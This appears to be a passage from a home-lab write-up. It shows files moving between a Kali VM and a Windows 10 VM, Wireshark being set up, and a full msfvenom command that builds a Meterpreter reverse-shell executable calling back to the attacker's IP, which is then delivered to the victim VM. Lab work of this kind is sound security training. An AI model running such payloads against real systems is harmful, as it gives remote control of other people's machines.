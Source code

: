 ### 5. Transferring Wireshark Installer to Windows VM

I had to temporarily disable the Kali firewall (using ```sudo ufw disable```) to allow the Windows VM to reach the HTTP server. After the transfer, I re-enabled it with ```sudo ufw enable``` to keep things secure.

<img src="https://i.imgur.com/MOGYV3O.png">

In Windows 10, I opened Edge and visited http://172.16.0.129:8080/ to connect to the Kali machine, which allowed me to download the Wireshark.exe installer directly from Kali VM.

<img src="https://i.imgur.com/vwaqCmn.png">

---

### 6. Wireshark Installation and Packet Capture Setup

Once Wireshark was downloaded to the Windows 10 VM, I installed it and verified that it was able to capture traffic on the Host-Only adapter. I ensured the network interface being monitored matched the one used for host-only traffic.

<img src="https://i.imgur.com/yOIEbEC.png">

---

### 7. Creating a Reverse Shell Payload with msfvenom

Next, I generated a malicious payload using ```msfvenom```, a tool within the Metasploit Framework. This tool creates payloads that simulate malware, in this case, a reverse shell:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.0.129 LPORT=4444 -f exe -o /home/kali/Desktop/shell.exe
```

<img src="https://i.imgur.com/CxAbJGG.png">

**LHOST:** is Kali’s IP address (attacker).<br>
**LPORT 4444:** is the port Metasploit listens on.<br>
**-f exe:** creates a Windows executable payload.<br>
**-o:** sets the output path.<br>

---

### 8. Delivering the Payload to Windows VM

I then used the same HTTP server method to transfer ```shell.exe``` to the Windows 10 VM.

<img src="https://i.imgur.com/SWYDjpi.png">

In real-world scenarios, malware like this is typically delivered to a victim's system via methods such as phishing or exploitation of vulnerabilities. For the purposes of this isolated home lab, the payload was transferred directly to simplify the simulation.

---